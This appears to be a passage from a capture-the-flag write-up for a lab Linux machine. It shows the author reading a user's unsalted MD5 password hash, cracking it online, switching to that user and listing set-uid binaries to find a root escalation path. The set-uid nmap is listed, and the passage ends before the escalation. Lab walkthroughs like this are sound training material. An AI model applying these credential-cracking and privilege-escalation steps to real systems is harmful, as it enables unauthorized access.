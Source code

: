 ```
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

This looks fairly small, and no salt. Let's use an online tool [hashes.com](https://hashes.com/en/decrypt/hash)


And we have the creds! (also, very nice password XD)

```
daemon@linux:/home/robot$ su robot
su robot
Password: {hmmmmmmmmmmmmmmmmmm}

robot@linux:~$ 
```

```
robot@linux:~$ sudo -l
sudo -l
[sudo] password for robot: {hmmmmmmmmmmmmmmmmmm}

Sorry, user robot may not run sudo on linux.
```

We can get the key 2 though! So priv esc to root time!

I tried getting the `linpeas.sh` file from my machine, by setting up a `httpserver`, but that did not work. Only other way is to manually find issues.

If you have seen other priv-escs, all, or all I have seen, exploit something related to the `set-uid` bit.

Let's find the files having those, using: `robot@linux:~$ find / -perm -u=s > /dev/null`


```
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null      
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
